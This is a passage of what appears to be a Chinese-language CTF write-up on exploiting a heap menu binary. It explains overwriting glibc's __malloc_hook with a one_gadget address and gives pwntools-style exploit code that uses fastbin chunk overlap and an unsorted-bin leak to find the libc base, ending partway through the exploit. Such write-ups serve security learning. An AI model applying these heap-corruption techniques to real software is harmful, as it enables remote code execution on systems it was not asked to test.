 而由上面的 gdb 分析可知得到的指针位于 `0xaed`，`__malloc_hook` 位于 `0xb10`（PIE 下低 12 位固定），相差 `0x13`。因此填充 `0x13` 字节的 padding 后再放上 getshell 的 gadget 地址即可。

```python
# _IO() + 13 == __malloc_hook(), one_gadget
payload = flat(['\x00'*0x13, base+0x4526a])
fill(6, payload)
```

最后不要忘记再申请一次任意大小内存以调用 `__malloc_hook`。完整 exp，注意最后一次 alloc 返回得有点慢，`recvuntil` 最好加一个 `timeout`：

```python
def alloc(size):
    sl('1')
    sla(':', str(size))
    ru(':', timeout=1)

def fill(idx, data):
    sl('2')
    sla(':', str(idx))
    sla(':', str(len(data)))
    sa(':', data)
    ru(':')

def free(idx):
    sl('3')
    sla(':', str(idx))
    ru(':')

def dump(idx):
    sl('4')
    sla(':', str(idx))
    ru(': \n')
    data = p.ru('\n')
    ru(':')
    return data


for i in range(4):
    alloc(0x10) # a0,b1,c2,d3
alloc(0x80) # e4
free(1) # b
free(2) # c

# c->fd = e
payload = flat(0,0,0,0x21,0,0,0,0x21,'\x80')
fill(0, payload)

# e->chunk_size = 0x21
payload = flat(0,0,0,0x21)
fill(3, payload)

alloc(0x10) # c1
alloc(0x10) # e2

# e->chunk_size = 0x91
payload = flat(0,0,0,0x91)
fill(3, payload)
alloc(0x80) # f5
free(4) # e, e->fd = unsorted_head

base = u64(dump(2)[:8])-0x3c4b78
leak('libc_base',base)

alloc(0x60) # g4
```